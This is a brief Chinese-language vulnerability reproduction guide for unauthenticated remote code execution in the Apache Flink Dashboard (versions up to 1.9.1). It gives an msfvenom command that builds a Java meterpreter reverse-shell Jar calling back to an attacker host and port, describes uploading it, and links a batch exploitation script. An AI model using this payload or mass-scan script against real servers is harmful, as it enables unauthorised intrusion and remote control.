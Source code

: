 Apache Flink Dashboard 未授权访问-远程代码命令执行
==================================================

一、漏洞简介
------------

Apache Flink的任意Jar包上传导致远程代码执行的漏洞

二、漏洞影响
------------

\<= 1.9.1(最新版本)

三、复现过程
------------

### 1、

    msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.20.166 LPORT=8989 -f jar > rce.jar

![](resource/ApacheFlinkDashboard未授权访问-远程代码命令执行/media/rId25.png)

### 2、

上传alewong Jar包

![](resource/ApacheFlinkDashboard未授权访问-远程代码命令执行/media/rId27.png)

![](resource/ApacheFlinkDashboard未授权访问-远程代码命令执行/media/rId28.png)

### 批量脚本

https://github.com/ianxtianxt/Apache-Flink-Dashboard-rec

    Ps:
    当注释掉 if 'Unable to load requested file' in str(data):
    之后，出现Token为空，或者 Unauthorized request 时候是不存在未授权访问的，而是带授权
